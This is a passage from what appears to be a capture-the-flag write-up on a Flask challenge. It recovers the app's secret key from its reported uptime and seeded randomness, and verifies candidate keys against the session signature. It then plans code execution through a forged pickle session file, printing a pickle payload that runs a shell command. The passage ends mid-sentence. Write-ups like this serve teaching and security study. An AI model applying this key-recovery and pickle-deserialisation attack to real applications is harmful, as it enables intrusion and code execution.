 If we access to the `/status` endpoint, we get the following response:

```python
{"status":"ok","server_time":"2025-01-14 09:21:09.758812","uptime":"0:02:48.966212"}
```

By calculating `server_time - uptime`, we can determine `START_TIME` with millisecond precision. Hence, the seed for `random.seed` can be calculated.

We know the UUID was calculated soon after `START_TIME` was determined. If we can check its validity offline, we can brute-force the exact value of the time with 100 nanosecond precision.

The session token looks like this:
```
-0DX43ZHxRUANBy4kfY35IEHpFLKQxXs2K4tPEuXthI.43PdPtt14XDlO_TYbw6eCqY1MH0
```

The string before the `.` is the session ID, and the string after the `.` is the verification code. The verification code is signed and unsigned using [`itsdangerous.Signer`](https://github.com/pallets-eco/flask-session/blob/development/src/flask_session/base.py#L200). Hence, we used the following code to determine the calculated `SECRET_KEY` is valid:

```python
token = s.cookies['session']
value = token.split('.')[0]
sig = token.split('.')[1]
signer = Signer(SECRET_KEY, 'flask-session',key_derivation="hmac")
if signer.verify_signature(value, sig):
    print(SECRET_KEY)
```

#### Step 3: RCE

With the `SECRET_KEY` calculated, we can assign any value to the session ID. How do we connect this to RCE? 

Remember that the session value is stored in the file system using `flask-session`. The session file consists of 4 bytes of unsigned int that represents the generated time, followed by pickle bytes (See [here](https://github.com/pallets-eco/cachelib/blob/9a4de4df1bce035d27c93a34608a8af4413d5b59/src/cachelib/file.py#L218) and [here](https://github.com/pallets-eco/cachelib/blob/9a4de4df1bce035d27c93a34608a8af4413d5b59/src/cachelib/serializers.py#L27)).

It is well known that you can execute any code if the program accepts deserializing any pickle bytes. For example:

```python
class RCE:
    def __reduce__(self):
        cmd = ('/readflag > /app/app/static/flag.txt')
        return os.system, (cmd,)
pickled_payload = pickle.dumps(RCE())

# Run the following inside the server to RCE
pickle.loads(pickled_payload)
```

The session file is saved in `/app/flask_session/<hash>`, where the hash is
